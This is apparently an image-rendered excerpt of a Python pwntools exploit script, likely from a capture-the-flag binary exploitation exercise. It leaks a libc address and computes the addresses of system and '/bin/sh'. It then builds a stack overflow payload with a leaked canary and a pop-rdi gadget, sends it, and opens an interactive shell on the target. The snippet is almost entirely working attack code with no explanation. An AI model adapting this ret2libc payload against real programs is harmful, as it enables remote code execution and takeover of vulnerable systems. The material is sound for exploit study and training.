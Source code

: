 ```
putsLeak = target.recvline().replace(b"\x0a", b"")

putsLibc = u64(putsLeak + b"\x00"*(8-len(putsLeak)))

# Calculate the needed addresses

libcBase = putsLibc - offsetPuts
systemLibc = libcBase + offsetSystem
binshLibc = libcBase + offsetBinsh

print("libc base: " + hex(libcBase))

# Form the payload to return to system

payload = b""
payload += b"0"*0xa8
payload += p64(canary)
payload += b"1"*0x8
payload += popRdi # Pop "/bin/sh" into the rdi register, where it expects it's argument (single char pointer)
payload += p64(binshLibc) # Address to '/bin/sh'
payload += p64(systemLibc) # Libc address of system

# Send the final payload
feed(payload)

target.sendline(b"3")

#feed(payload)

# Return to execute our code, return to system and get a shell
#leave()

target.interactive()
```
